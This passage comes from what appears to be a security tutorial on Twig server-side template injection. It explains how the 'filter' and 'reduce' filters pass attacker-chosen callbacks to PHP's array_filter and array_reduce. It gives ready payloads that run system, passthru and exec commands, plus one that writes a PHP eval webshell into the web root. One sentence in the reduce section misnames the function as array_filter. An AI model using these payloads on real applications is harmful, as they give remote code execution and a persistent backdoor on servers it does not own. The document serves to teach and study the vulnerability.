 > From the source code, you can see that `$array` and `$arrow` are directly called by the `array_filter` function. The `array_filter` function can use a callback function to filter elements in the array. If you customize a dangerous function, it will cause code execution or command execution.

<img src="./images/3.png" alt="">

> Payload

```php
{{["calc"]|filter("system")}}
{{["calc"]|filter("passthru")}}
{{["calc"]|filter("exec")}} // No echo
{{{"<?php phpinfo();eval($_POST[H3rmesk1t]);":"/var/www/html/shell.php"}|filter("file_put_contents")}} // Write Webshell
```

### reduce filter
> This reduce filter uses an arrow function to iteratively reduce multiple elements in a sequence or map to a single value, which receives the return value of the last iteration and the current value of the sequence or map.

```php
{% set numbers = [1, 2, 3] %}
{{ numbers|reduce((carry, v) => carry + v) }}
// Output: 6
```

> Similar to map, the `twig_array_reduce` function will be entered during the template compilation process. The source code of this `twig_array_reduce` function is as follows

```php
function twig_array_reduce($array, $arrow, $initial = null)
{
    if (!\is_array($array)) {
        $array = iterator_to_array($array);
    }

    return array_reduce($array, $arrow, $initial); // $array, $arrow and $initial are called directly by the array_reduce function
}
```

> From the source code, you can see that `$array` and `$arrow` are called directly by the `array_filter` function. The `array_reduce` function can send values ​​in the array to the user-defined function and return a string. If a dangerous function is customized, it will cause code execution or command execution.

> Payload

```php
{{[0, 0]|reduce("system", "calc")}}
{{[0, 0]|reduce("passthru", "calc")}}
{{[0, 0]|reduce("exec", "calc")}} // No echo
```